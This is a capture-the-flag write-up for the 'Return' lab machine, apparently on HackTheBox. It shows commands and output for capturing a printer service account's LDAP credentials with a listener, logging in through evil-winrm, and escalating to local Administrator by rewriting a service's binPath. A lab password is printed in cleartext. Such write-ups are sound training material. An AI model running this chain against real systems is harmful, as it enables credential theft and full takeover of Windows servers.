





# Return - Easy

Target IP: **10.129.95.241**

## User Flag

Initial scan: ```sudo nmap -sC -sV 10.129.95.241 -v```

Output shows a lot of ports open.

```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: HTB Printer Admin Panel
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-11-07 19:52:11Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Let's check out SMB. It seems like we are denied access.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-lgkqeuzbzv]─[~]
└──╼ [★]$ smbmap -H 10.129.95.241

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 0 authenticated session(s)                                                      
[!] Access denied on 10.129.95.241, no fun for you...                                                                        
[*] Closed 1 connections                                                                                                     
```

Let's pivot to port 80 and navigate to it.

We are greeted with this front page.



The "settings" option is interesting. This seems like some configuration for the printer server. What's interesting also is that the password field is being filled automatically.



Let's send and capture a request.

It sends a post request with the IP field being taken from the form. The port, username, and password cannot be changed.



Perhaps we can change the IP to a netcat listener and get a shell back. In this case, the listener will have to be running on port 389.

Let's try it.

We can change the IP on the form to our attack box, then submit.



After doing so, we get a connection back on our listener that seems to be displaying the username and the password.



Let's try getting a shell through ```evil-winrm```.

It works!

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-lgkqeuzbzv]─[~]
└──╼ [★]$ evil-winrm -i 10.129.95.241 -u svc-printer -p '1edFg43012!!'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-printer\Documents> whoami
return\svc-printer
```

We can proceed to get the user flag from here.

## Root Flag

This user has a lot of interesting user and group privileges.

```
*Evil-WinRM* PS C:\Users\svc-printer\desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                         State
============================= =================================== =======
SeMachineAccountPrivilege     Add workstations to domain          Enabled
SeLoadDriverPrivilege         Load and unload device drivers      Enabled
SeSystemtimePrivilege         Change the system time              Enabled
SeBackupPrivilege             Back up files and directories       Enabled
SeRestorePrivilege            Restore files and directories       Enabled
SeShutdownPrivilege           Shut down the system                Enabled
SeChangeNotifyPrivilege       Bypass traverse checking            Enabled
SeRemoteShutdownPrivilege     Force shutdown from a remote system Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set      Enabled
SeTimeZonePrivilege           Change the time zone                Enabled
*Evil-WinRM* PS C:\Users\svc-printer\desktop> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Server Operators                   Alias            S-1-5-32-549 Mandatory group, Enabled by default, Enabled group
BUILTIN\Print Operators                    Alias            S-1-5-32-550 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288
```

What stands out is ```Server Operators```, allowing us to administer Windows Servers without Domain Admin privileges. We can start, stop, and modify services.

Let's target the ```AppReadiness``` service.

```
*Evil-WinRM* PS C:\Users\svc-printer\desktop> sc.exe qc AppReadiness
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: AppReadiness
        TYPE               : 20  WIN32_SHARE_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\System32\svchost.exe -k AppReadiness -p
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : App Readiness
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```

We can change the binary path for this service to a command that will add ```svc-printer``` to the local administrator group.

```
*Evil-WinRM* PS C:\Users\svc-printer\desktop> sc.exe config AppReadiness binPath= "cmd /c net localgroup Administrators svc-printer /add"
[SC] ChangeServiceConfig SUCCESS
```

We can now start the service, which fails as expected.

```
*Evil-WinRM* PS C:\Users\svc-printer\desktop> sc.exe start AppReadiness
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.
```

However, checking the local administrator group, we see that the command was executed successfully.

```
*Evil-WinRM* PS C:\Users\svc-printer\desktop> net localgroup Administrators
Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
Domain Admins
Enterprise Admins
svc-printer
The command completed successfully.
```

We can proceed to get the root flag from here.

Nice pwn!

## Contact

Email: <johnyang4406@gmail.com>, <john_s_yang@brown.edu>

LinkedIn: <https://www.linkedin.com/in/john-yang-747726292/>

HackTheBox: <https://profile.hackthebox.com/profile/019c423f-9b9b-708f-8b31-55983b89dddd?utm_medium=copy_url/>
